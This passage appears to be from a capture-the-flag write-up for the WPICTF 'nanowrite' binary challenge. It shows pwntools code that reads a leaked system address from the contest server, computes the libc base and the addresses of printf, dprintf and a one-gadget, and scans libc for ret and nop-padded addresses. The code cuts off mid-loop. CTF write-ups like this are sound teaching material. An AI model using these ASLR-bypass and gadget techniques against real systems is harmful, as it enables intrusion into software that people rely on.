 #### Get `system` leak and compute the addresses of `printf`, `dprintf`, and the gadget

```python
#!/usr/bin/python3

from pwn import *
import networkx as nx
import time

binary = ELF('./nanowrite')
#p = process('./nanowrite')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('dorsia4.wpictf.xyz',31337)
libc = ELF('libc.so.6')

_ = p.recvline().split()[0]

system = int(_,16) - 765772
print("system:  " + hex(system))
baselibc = system - libc.symbols['system']
print("libc:    " + str(hex(baselibc)))
printf  = baselibc + libc.symbols['printf']
print("printf:  " + str(hex(printf)))
dprintf = baselibc + libc.symbols['dprintf']
print("dprintf: " + str(hex(dprintf)))
gadget  = baselibc + 0x4f322
print("gadget:  " + str(hex(gadget)))
```

From the _card_, `printf("%p giv i b\n",system+765722);` just leaks `system` and some nonsense we do not care about.  Computing the locations of `system`, `printf`, `dprintf`, and the gadget is pretty straight forward.



#### Find a list of all the "safe" libc addresses

```python
nops = [
0x90,
0x6690,
0x0f1f00,
0x0f1f4000,
0x0F1F440000,
0x660F1F440000,
0x0F1F8000000000,
0x0F1F840000000000,
0x660F1F840000000000,
0x662e0f1f840000000000
]

addrs = []
code = open('libc.so.6','rb').read()
t=time.time()
print("\ncomputing safe addresses...",end="")
for i in range(len(code)):
    if code[i] == 0xc3 or i == libc.symbols['dprintf'] or i == libc.symbols['printf'] or i == 0x4f322:
        addrs.append((baselibc + i) & 0xFFFFFF)
        j = i
        while True:
            for k in range(len(nops)-1,-1,-1):
                if code[j-k-1:j] == nops[k].to_bytes(k+1,byteorder='big'):
                    addrs.append((baselibc + j-k-1) & 0xFFFFFF)
                    break
```